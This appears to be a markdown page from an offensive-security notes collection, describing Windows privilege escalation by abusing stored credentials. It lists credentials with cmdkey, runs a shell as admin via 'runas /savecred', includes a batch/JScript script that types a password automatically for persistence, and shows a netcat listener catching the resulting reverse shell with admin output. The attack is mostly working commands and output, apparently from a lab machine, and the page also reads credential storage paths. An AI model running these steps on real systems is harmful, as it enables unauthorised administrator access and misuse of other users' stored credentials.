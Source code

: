 # Living off the Land

## 01 - Command Prompt

- This privilege escalation techniques is really easy to escalate to get the administrators group level. As the command follows:

```
C:\> cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin

C:\> dir C:\Users\<username>\AppData\Local\Microsoft\Credentials\

C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\
```

We know the user is `admin` and the type of password is **Domain Password**. We will use the `runas` windows command to execute with admin privileges. And the flag `/savecred` will store the credentials in the **Windows Credentials** management and can be elevated without needing to re-enter the password after passing the particular username account once.

`C:\> runas /savecred /user:admin shell.exe`

- The full path of the runas.exe Windows builtin tool

`C:\Windows\system32\runas.exe /user:<DOMAIN_NAME>\<username> "C:\Windows\system32\cmd.exe /c whoami"`

We can also leverage this to make it persistent with the credentials we've obtained from the target with this script:

`$ cat savecred.bat`

---

```
@if (@CodeSection == @Batch) @then
@echo off
start "" runas /savecred /user:%1 %2
CScript //nologo //E:JScript "%~F0"
goto :EOF
@end
WScript.CreateObject("WScript.Shell").SendKeys("<password>{ENTER}");
```

The syntax is for the batch script:

`C:\> savecred.bat <path_to_shell>`

- Start a shell handler to listen for incoming connection.

```
$ sudo nc -lnvp 53
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 10.10.174.46.
Ncat: Connection from 10.10.174.46:49801.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.
```

- And you have successfully escalated to administrator user account.

```
C:\Windows\system32> whoami
win-qba94kb3iof\admin
C:\Windows\system32> net user %username%
net user %username%
User name                    admin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/19/2020 10:05:42 AM
Password expires             Never
Password changeable          8/19/2020 10:05:42 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/25/2022 6:30:17 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

## 02 - Powershell

```
PS C:\> cmdkey /list

PS C:\> Get-ChildItem -Hidden C:\Users\$env:username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\$env:username\AppData\Roaming\Microsoft\Credentials\
```

---
## References

- [SS64 RunAs](https://ss64.com/nt/runas.html)

- [Windows Server 2012 R2](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11))

- [Windows RunAs Command Prompt](https://www.windows-commandline.com/windows-runas-command-prompt/)

- [RunAs Reverse Shell](https://gist.github.com/int0x33/eb358632a13bcd1e017a14c0fb00a52b)

- [Windows RunAs Reverse Shell](https://labs.p64cyber.com/windows-run-as-reverse-shell/)